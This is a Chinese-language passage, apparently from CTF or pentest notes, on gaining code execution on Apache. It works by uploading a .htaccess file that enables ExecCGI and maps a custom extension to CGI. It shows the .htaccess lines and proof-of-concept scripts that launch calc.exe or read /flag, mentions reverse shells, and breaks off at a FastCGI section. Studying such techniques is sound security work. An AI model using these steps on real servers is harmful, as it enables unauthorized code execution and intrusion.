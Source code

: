 







#### 利用条件

> ​	1.保证htaccess会被解析，即当前目录中配置了`AllowOverride all或AllowOverride Options FileInfo。AllowOverride参数具体作用可参考Apache之AllowOverride参数详解。(Require all granted也是需要的)
>
> ​	2.cgi_module被加载。即apache配置文件中有LoadModule cgi_module modules/mod_cgi.so这么一句且没有被注释。
>
> ​	3.有目录的上传、写入权限。



#### 利用姿势

上传.htaccess  文件, 内容如下：

```
Options ExecCGI
AddHandler cgi-script .xx
```

Options ExecCGI表示允许CGI执行，如果AllowOverride只有FileInfo权限且本身就开启了ExecCGI的话，就可以不需要这句话了。

Options +ExecCGI 作用相同。



第二句告诉Apache**将xx后缀名的文件，当做CGI程序进行解析**。



windows，上传poc.xx文件，内容如下：

```
#!C:/Windows/System32/cmd.exe /c start calc.exe
```



linux，

```bash
#!/bin/bash
echo Content-type: text/html
echo ""
cat /flag
```

这里需要注意脚本的格式，不知道为什么，这里去掉echo ""就无法执行成功，可能与cgi脚本的格式有关系。



linux环境下，也是随你玩，是直接调用**/bin/bash**还是调用**/usr/bin/python**来反弹Shell。都是可以的。这其实也就是正常使用方式，因为Python也会被用作为CGI解析程序。



### FastCGI启动方式RCE利用

​	我们再来看看FastCGI模式的，这个依赖的是mod_fcgid.so，默认安装包里甚至没有这个so文件，不过在PHPStudy的默认配置中，就已经是加载了的，并且AllowOverride也是All权限，手动斜眼。
